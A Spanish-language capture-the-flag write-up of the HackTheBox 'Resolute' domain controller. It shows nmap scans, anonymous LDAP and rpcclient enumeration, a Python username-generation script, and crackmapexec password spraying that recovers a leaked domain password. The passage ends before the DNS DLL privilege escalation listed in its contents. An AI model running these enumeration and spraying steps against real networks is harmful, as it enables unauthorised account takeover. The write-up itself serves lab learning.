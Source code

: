 ```yaml
---
layout      : post
title       : "HackTheBox - Resolute"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220banner.png
category    : [ htb ]
tags        : [ DLL, PSTranscript, LDAP, visual-studio, DnsAdmins, DC ]
---
```

Máquina Windows nivel medio. Enumeraremos hasta más no poder un **controlador de dominio**, veremos contraseñas volando libremente e inyectaremos una **DLL** maliciosa en un servidor **DNS** 😲

![220resoluteHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220resoluteHTB.png)

## TL;DR (Spanish writeup)

**Creada por**: [egre55](https://www.hackthebox.eu/profile/1190).

El dinamismo ante todooooooooooo0OoooO!

Nos enfrentaremos a un **DC** (controlador de dominio) to lindo, inicialmente enumeraremos el protocolo **LDAP**, con él conseguiremos bastante info de unos usuarios. Los recopilaremos para usarlos después.

Jugaremos con `rpcclient` para enumerar el dominio un poco más, encontraremos una contraseña en la descripción del usuario `marko`, pero validándolas contra el sistema u otro servicio no serán válidas. Tomaremos los usuarios que obtuvimos antes y probaremos con cada uno esa contraseña. Finalmente tendremos como candidato válido el usuario `Melanie`, jugando con `evil-winrm` obtendremos una **PowerShell** en el sistema como ella.

En un directorio del sistema encontraremos el log de unos comandos ejecutados en **PowerShell** (`PSTranscript`), con los ojos bien grandes veremos unas credenciales usadas por el usuario `Ryan` para intentar mapear unos directorios del sistema. Usaremos **evil-winrm** para obtener una nueva Shell.

Veremos que **Ryan** esta en el grupo `DnsAdmins`, jugaremos con ese grupo para explotar el servidor **DNS**, inyectaremos una `DDL` maliciosa que al ser ejecutada nos devuelva una **Reverse Shell** como el usuario `nt authority\system` (: 

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Mucho real!! Bastante enumerar y manos ensuciar e.e

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

HAY QUE VIVIR TODOS LOS DÍAS!

1. [Reconocimiento](#reconocimiento).
  * [Enumeración de puertos con nmap](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Recorremos el protocolo **LDAP**](#puertos-ldap).
3. [Explotación: encontramos usuarios en el servidor **LDAP**](#explotacion).
  * [Enumeramos un poquito más del **Domain Controller**](#rpcclient-dc).
4. [Nos movemos de **Melanie** a **Ryan** viendo archivos del sistema](#creds-pstranscript).
5. [Escalada de privilegios: explotamos el grupo **DnsAdmins**](#escalada-de-privilegios).
6. [**<u>Post-Explotación: Compilamos nuestra propia **DLL**</u>**](#manual-dll).
  * [Generamos la **DLL** usando **dns-exe-persistance**](#repo-dns-exe-persistance).
  * [Generamos la **DLL** usando **DNSAdmin-DLL**](#repo-dnsadmin-dll).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Enumeración de puertos con nmap [📌](#enum-nmap) {#enum-nmap}

Iniciaremos encontrando que puertos tiene activos y expuestos la máquina, para esto usaremos `nmap`:

```bash
❱ nmap -p- --open -v 10.10.10.169 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

El escaneo nos devuelve varios puertos:

```bash
❱ cat initScan
# Nmap 7.80 scan initiated Wed Aug 11 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.169
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.169 ()	Status: Up
Host: 10.10.10.169 ()	Ports: 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 5985/open/tcp//wsman///, 9389/open/tcp//adws///, 47001/open/tcp//winrm///, 49664/open/tcp/////, 49666/open/tcp/////, 49667/open/tcp/////, 49670/open/tcp/////, 49676/open/tcp/////, 49677/open/tcp/////, 49688/open/tcp/////, 49712/open/tcp/////
# Nmap done at Wed Aug 11 25:25:25 2021 -- 1 IP address (1 host up) scanned in 126.37 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 53                | **[DNS](https://book.hacktricks.xyz/pentesting/pentesting-dns)**: Permite a internet identificar que dominio es de que IP y viceversa. |
| 88                | **[Kerberos](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)**: Protocolo de autenticación.  |
| 135/593           | **[RPC](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)**: Permite la comunicación entre computadores de distintas redes sin problemas. |
| 139/445           | **[SMB](https://www.varonis.com/blog/smb-port/)**: Podemos compartir información entre dispositivos de una red. |
| 389/636/3268/3269 | **[LDAP](https://book.hacktricks.xyz/pentesting/pentesting-ldap)**: Protocolo que ayuda a la localización de "recursos" en una red. |
| 464               | **[kpasswd5](https://security.stackexchange.com/questions/205492/what-is-this-service)**: Relacionado con el protocolo **kerberos**: `Kerberos Password Change`. |
| 5985/47001        | **[WinRM](https://www.pcwdld.com/what-is-winrm)**: Usado para ejecutar tareas administrativas de una red. |
| 9389              | **[ADWS](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/active-directory-administrative-center)**: `Active Directory Administrative Center`. |
| 49664/49666       | No sabemos. |
| 49667/49670/49676 | No sabemos. |
| 49677/49688/49712 | Y no sabemos. |

Uff, varios puertos...

Ya teniendo conocimiento de los servicios que tiene activos la máquina, haremos otro escaneo, pero esta vez para descubrir que versiones y script están relacionados con cada servicio:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, así no tenemos que ir uno a uno**
 
```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.169
    [*] Open ports: 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49666,49667,49670,49676,49677,49688,49712

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49666,49667,49670,49676,49677,49688,49712 -sC -sV 10.10.10.169 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

Obtenemos:

```bash
❱ cat portScan
# Nmap 7.80 scan initiated Wed Aug 11 25:25:25 2021 as: nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49666,49667,49670,49676,49677,49688,49712 -sC -sV -oN portScan 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.12s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-08-11 16:45:18Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49712/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=8/11%Time=6113FBAF%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"...
SF:...x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h32m36s, deviation: 4h02m31s, median: 12m35s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2021-08-11T09:46:12-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-08-11T16:46:13
|_  start_date: 2021-08-11T16:08:23

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 11 25:25:25 2021 -- 1 IP address (1 host up) scanned in 173.51 seconds
```

Peeeerfecto, destacamos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 389    | LDAP     | LDAP |

  * Un dominio: `megabank.local`.

---

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 445    | SMB      | Windows Server 2016 Standard 14393 |

  * Vemos también el [grupo de trabajo](https://social.technet.microsoft.com/Forums/lync/es-ES/833097b4-30e4-4028-a59e-38d06c7024f5/para-que-sirve-un-grupo-de-trabajo?forum=win10itprogeneralES#11a41872-a3e7-4fa1-92af-291de8c17fda) `MEGABANK`.

Por el momento nada más, ahora si empecemos a romper de toooooooooodo 🕯️

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Protocolo <u>LDAP</u> [📌](#puertos-ldap) {#puertos-ldap}

Después de probar y probar cositas hacia el **DNS** o hacia **SMB** no encontramos nada :(

Sin embargo si nos enfocamos en enumerar los recursos sostenidos por el protocolo `LDAP` vemos varias cositas interesantes...

📥 ***"`LDAP` son las siglas de **Protocolo Ligero de Acceso a Directorio**, o en inglés **Lightweight Directory Access Protocol**). Se trata de un conjunto de protocolos de licencia abierta que son utilizados para **acceder a la información que está almacenada de forma centralizada** en una red."*** [profesionalreview](https://www.profesionalreview.com/2019/01/05/ldap/).

Muy bien, apoyados en [esta guía](https://book.hacktricks.xyz/pentesting/pentesting-ldap) logramos profundizar y encontrar cadenas llamativas, empezaremos a jugar con un script de `nmap` que busca todos los recursos servidos por el protocolo y los muestra, se llama [ldap-search](https://nmap.org/nsedoc/scripts/ldap-search.html):

```bash
❱ nmap -p 389 --script "ldap-search" 10.10.10.169 -oN ldapSearch
```

Nos devuelve un gran output, pero ya en las primeras líneas podemos extraer info para seguir jugando:

```bash
# Nmap 7.80 scan initiated Wed Aug 11 25:25:25 2021 as: nmap -p 389 --script ldap-search -oN ldapSearch 10.10.10.169
Nmap scan report for 10.10.10.169
Host is up (0.11s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search: 
|   Context: DC=megabank,DC=local
|     dn: DC=megabank,DC=local
|         objectClass: top
|         objectClass: domain
|         objectClass: domainDNS
|         distinguishedName: DC=megabank,DC=local
...
...
...
```

Volvemos a ver el dominio de antes (`megabank.local`) pero separado, lo que realmente tenemos ahí es el *componente del dominio* (`DC`), que sería el objeto que toma el **DNS** como referencia para definir un "nombre de espacio" (como un "identificador").

Esto nos sirve para jugar a enumerar ese **DC**, ya sea con la herramienta `ldapsearch` o (hay más de 2 opciones claramente) con una librería de **Python** llamada `ldap3`. 

Empecemos con `ldapsearch` y después hacemos unos truquitos bonitos con **Python** y su librería `ldap3`.

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local"
```

| Parámetro | Descripción |
| --------- | :---------- |
| -h        | Le pasamos el servidor donde esta el protocolo **LDAP** |
| -x        | Hacemos una autenticación simple, sin contraseña        |
| -b        | Le indicamos cuál es la base de nuestra búsqueda        |

Al ejecutarlo vemos el output que obtuvimos con `nmap` peeeeeeero muchas cosas más. Y descubrimos esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_ldapsearch_foundUsers.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Vemos al final varios usuarios, les muestro a `Simon` porque fue el primero que vi, pero hay unos cuantos, si detallamos la imagen hay dos líneas interesantes:

* El `Common Name (CN)` contiene el nombre y apellido del usuario en el formato `Nombre Apellido` (nótese las mayus).
* En el campo `userPrincipalName` esta el correo relacionado con ese usuario, pero también podemos destacar su formato: `nombre@megabank.local`.

Esto es supremamente llamativo, ya que de una enumeración de recursos del servidor `LDAP` hemos encontrado usuarios relacionados con el **Domain Controller** `megabank.local` 🔥

* Pa leer - [Términos extraños (CN, DC, DN, etc.) : Understanding Active Directory Services](https://www.informit.com/articles/article.aspx?p=101405&seqNum=7).

Pues si volvemos a ejecutar la instrucción, pero filtrando con **grep** por `cn:` (si no sabes por qué, vuelve a la imagen de arriba) para ver únicamente el nombre completo del usuario, nos damos cuenta de que la lista empieza con el usuario `Ryan`:

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:"
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_ldapsearch_grepCN1.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Po muy bien, lo que podemos hacer ahora es filtrar desde `Ryan` hasta (por ejemplo) 30 líneas después:

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:" | grep "Ryan" -A 30
cn: Ryan Bertrand
cn: Marko Novak
...
```

Ya tendríamos los usuarios, quitémosle el `cn:` y guardémoslos en un archivo:

```bash
# Separamos la cadena por sus espacios y nos quedamos con la segunda posicion en adelante (`2-`)
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:" | grep "Ryan" -A 30 | cut -d " " -f2-
```

```bash
❱ ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local" | grep "cn:" | grep "Ryan" -A 30 | cut -d " " -f2- > users.txt 
❱ cat users.txt | wc -l
23
```

Hay **23** usuarios, antes de ponernos a probar fuerza bruta o cualquier otra cosa es muy importante interpretar en que entorno estamos. 

Si nos hemos dado cuenta estamos dentro de un **directorio activo (Active Directory o AD)**, que de una manera muuuuuuuy resumida ayuda a administrar políticas, credenciales, equipos y otras cositas de toooda la red.

* [Más info AD - Active Directory Que es y para qué sirve](https://www.profesionalreview.com/2018/12/15/active-directory/).

Algo llamativo de los usuarios que existen en un **AD** son el formato en que son guardados (depende claramente de la empresa que gestiona ese AD).

Tomaremos de ejemplo el usuario `Carlos Carlitos` y el dominio `nanai`: nos podemos encontrar varios "templates":

(*Imagina con mayus también*)

* `c.carlitos@nanai`.
* `ccarlitos@nanai`.
* `Carlos@nanai`.
* `CarlosCarlitos@nanai`.

Y bueno, las demás formas que te puedas imaginar, esas serian las más conocidas y usadas. Pero, ¿de qué nos sirve esto? Bueno, muy sencillo, si en dado caso de probar el usuario `carlos` con tooooooodas las contraseñas posibles, pueda que ninguna nos dé resultado, ¿pero nos frenamos? Pues no, jugamos por ejemplo con un usuario llamado `ccarlitos` o `CarlosCarlitos` o bueno ya me entiendes :P el estar en un entorno como **AD** nos abre la puerta a más pruebas, ahora si sigamos...

Veamos rápidamente como obtener los mismos usuarios pero con la librería de `ldap3` en **Python3**:

* [Basic Enumeration LDAP with <u>import ldap3</u>](https://book.hacktricks.xyz/pentesting/pentesting-ldap#manual).

Creamos el script:

```py
#!/usr/bin/python3

import ldap3

# Nos conectamos al servidor LDAP
server = ldap3.Server('10.10.10.169', get_info = ldap3.ALL, port = 389, use_ssl = False)
connection = ldap3.Connection(server)
connection.bind()

# Buscamos en el Domain Controller y filtramos por los objetos "persona" con atributos Common Name
connection.search(search_base='DC=megabank,DC=local', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='CN')

# Obtenemos un array como respuesta
print(connection.entries)
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_scriptPY_connectLDAP_users.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, ya tendríamos los usuarios, esto nos permite jugar de toooooooooodas las formas posibles con ellos desde el mismo **programa**, nuestro script final con únicamente los usuarios sería este:

```py
#!/usr/bin/python3

import ldap3
import re

server = ldap3.Server('10.10.10.169', get_info = ldap3.ALL, port = 389, use_ssl = False)
connection = ldap3.Connection(server)
connection.bind()

connection.search(search_base='DC=megabank,DC=local', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='CN')

# Volvemos a extraer toda la data despues del `cn:` (texto que este entre varios rangos: de la 'A' a la 'Z', de la 'a' a la 'z', del '0' al '9' y espacios en blanco.
users_array = re.findall(r'cn: [A-Za-z0-9\s].+', str(connection.entries))
print(users_array)
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_scriptPY_connectLDAP_arrayUsers.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ahora nos queda jugar con ese array y generar infinidad de usuarios.

▶️ ***[Lindo tutorial de expresiones regulares](https://github.com/ziishaned/learn-regex/blob/master/translations/README-es.md)***.

...

# Explotación [#](#explotacion) {#explotacion}

Con ayuda de la librería `ldap3` en **Python** y nuestra extracción de usuarios podemos crear un bucle primero para quitar `cn:` de cada usuario y segundo para armar el formato que queramos con respecto a cada user, este sería el resultado final de nuestro script:

```py
#!/usr/bin/python3

import ldap3
import re

server = ldap3.Server('10.10.10.169', get_info = ldap3.ALL, port = 389, use_ssl = False)
connection = ldap3.Connection(server)
connection.bind()

connection.search(search_base='DC=megabank,DC=local', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='CN')

users_array = re.findall(r'cn: [A-Za-z0-9\s].+', str(connection.entries))

# Creamos archivo vacio llamado `users.txt`
file_users = open("users.txt", "w")
for user_with_cn in users_array:
    user = user_with_cn.replace("cn: ","")

    # Ejemplo: Ryan Bertrand
    try:
        # Ryan
        firstname = user.split()[0]
        # Bertrand
        lastname = user.split()[1]

        # -- Abrimos archivo para adjuntar data, no para sobreescribirla
        file_users = open("users.txt", "a")

        # Ryan
        file_users.write(firstname + "\n")
        # ryan.bertrand
        file_users.write(firstname.lower() + "." + lastname.lower() + "\n")
        # Ryan.Bertrand
        file_users.write(firstname + "." + lastname + "\n")
        # Ryan@Bertrand
        file_users.write(firstname + "@" + lastname + "\n")
        # RyanBertrand
        file_users.write(firstname + lastname + "\n")
        # R.bertrand
        file_users.write(firstname[0] + "." + lastname.lower() + "\n")
        # Rbertrand
        file_users.write(firstname[0] + lastname.lower() + "\n")
        # r.bertrand
        file_users.write(firstname.lower()[0] + "." + lastname.lower() + "\n")
        # rbertrand
        file_users.write(firstname.lower()[0] + lastname.lower() + "\n")

    except:
        pass

file_users.close()
```

Y en nuestro archivo `users.txt` veríamos algo así con todos los usuarios:

```bash
❱ cat users.txt
...
Marcus
marcus.strong
Marcus.Strong
Marcus@Strong
MarcusStrong
M.strong
Mstrong
m.strong
mstrong
...
```

Perfectísimo, tendríamos varias opciones de usuarios, solo nos faltaría la contraseña, podemos probar varias cosas, inicialmente algo como que cada **usuario** tome su "user" como contraseña (no se sabe, la vida es muy loca :P):

Nos apoyaremos en `crackmapexec` que puede validar rápidamente contra **SMB** si unas credenciales son válidas o no:

```bash
❱ crackmapexec smb 10.10.10.169 -u users.txt -p users.txt
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Ryan STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:ryan.bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Ryan.Bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Ryan@Bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:RyanBertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:R.bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Rbertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:r.bertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:rbertrand STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:Marko STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\Ryan:marko.novak STATUS_LOGON_FAILURE
...
```

Pero nada, ninguna es valida 😔

---

## Enumeramos con <u>rpcclient</u> el <u>Domain Controller</u> [📌](#rpcclient-dc) {#rpcclient-dc}

Después de agotar pruebas volvi al escaneo de puertos y recordé a `rpcclient`, herramienta que nos ayuda a rescatar más info del controlador de dominio (en caso de no necesitar credenciales 🙃), su uso es sencillo:

```bash
❱ rpcclient 10.10.10.169 -U "" -N
rpcclient $>
```

Perfecto, nos dejó entrar sin credenciales, ahora es ver si hay algo para enumerar...

Intentando ver los usuarios del dominio obtenemos info, lo único que cambia con respecto a los que tenemos son los primeros:

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
...
```

Si nos fijamos también nos muestra un campo llamado `rid` que seria como un identificador para ese usuario, este nos sirve entre varias cosas para listar más info acerca del user, como por ejemplo con `Administrator`:

```bash
rpcclient $> queryuser 0x1f4
        User Name   :   Administrator
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Built-in account for administering the computer/domain
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      mié, 11 ago 2021 11:09:43 -05
        Logoff Time              :      mié, 31 dic 1969 19:00:00 -05
        Kickoff Time             :      mié, 31 dic 1969 19:00:00 -05
        Password last set Time   :      jue, 12 ago 2021 09:46:03 -05
        Password can change Time :      vie, 13 ago 2021 09:46:03 -05
        Password must change Time:      mié, 13 sep 30828 21:48:05 -05
        unknown_2[0..31]...
        user_rid :      0x1f4
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x0000003e
        padding1[0..7]...
        logon_hrs[0..21]...
```

Obtenemos eso, una información más detallada del usuario, podríamos hacer a mano esto con todos los demás usuarios, pero es un poco feo, lo mejor es automatizarlo, hagámoslo rápidamente con ayuda de la terminal, lo primero es extraer todos los `rids`:

Con el parámetro `-c` le indicamos que ejecute un comando y no nos devuelva una sesión interactiva:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers'
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
...
```

Ahora filtramos por el `rid`:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers' | grep -oP "rid.+"
rid:[0x1f4]
rid:[0x1f5]
...
```

Separamos la cadena en dos delimitndola por el simbolo `:` y nos quedamos con el segundo valor:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers' | grep -oP "rid.+" | cut -d ':' -f 2
[0x1f4]
[0x1f5]
...
```

Y simplemente quitamos los `[]` de la cadena:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'enumdomusers' | grep -oP "rid.+" | cut -d ':' -f 2 | tr -d '[]'
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_rpcclientGREP_rids.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, al final le agregamos un archivo donde queremos guardar esos valores (`... > rids.txt`) y ya tenemos los `rids` (: 

Ahora volvemos a usar `rp, pero con el comando `queryuser` y le vamos pasando los `rids` del archivo, primero hagamos una prueba con el usuario `Administrator`, ya vimos todos los campos que nos devuelve al ejecutar el comando, quedémonos con el nombre del usuario y su descripción, ningún otro campo se ve llamativo así que juguemos con esos dos:

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'queryuser 0x1f4' -N | grep -E "User Name|Description"
        User Name   :   Administrator
        Description :   Built-in account for administering the computer/domain
```

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'queryuser 0x1f4' -N | grep -E "User Name|Description" | cut -d ":" -f2-
        Administrator
        Built-in account for administering the computer/domain
```

```bash
❱ rpcclient 10.10.10.169 -U "" -N -c 'queryuser 0x1f4' -N | grep -E "User Name|Description" | cut -d ":" -f2- | sed -e 's/^[[:space:]]*//'
Administrator
Built-in account for administering the computer/domain
```

Listo, ya tenemos nuestro output deseado, juguemos con un bucle que lea cada línea del archivo y realice el mismo procedimiento pero con todos los usuarios:

```bash
❱ for i in $(cat rids.txt); do echo "-----------"; rpcclient 10.10.10.169 -U "" -N -c "queryuser $i" -N | grep -E "User Name|Description" | cut -d ":" -f2- | sed -e 's/^[[:space:]]*//'; done
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_forloop_rpcclient_foundPW.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

¿Ya viste algo? 😵 Efectivamente, hay una contraseña seteada para el usuario `marko` :O :o O.O Puuuuuuuuuuuess probando de nuevo con `cme`, pero ahora contra "`marko`" no nos dan resultado esas credenciales :(

```bash
❱ crackmapexec smb 10.10.10.169 -u 'marko' -p 'Welcome123!'
SMB         10.10.10.169    445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.10.10.169    445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
```

Probando contra los demás servicios no es válida tampoco :( peeeeeeeeeeero no nos rendimos, si recordamos habíamos creado una lista de usuarios muy linda, pues volvamos a probar con cada usuario del objeto pero ahora contra esa contraseña:

```bash
❱ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!'
...
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_cme_MelaniePWvalid.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OPAAAAAAAAAAAAAAAAAAAAA, `crackmapexec` nos indica que esa contraseña es válida contra el usuario `Melanie`. 

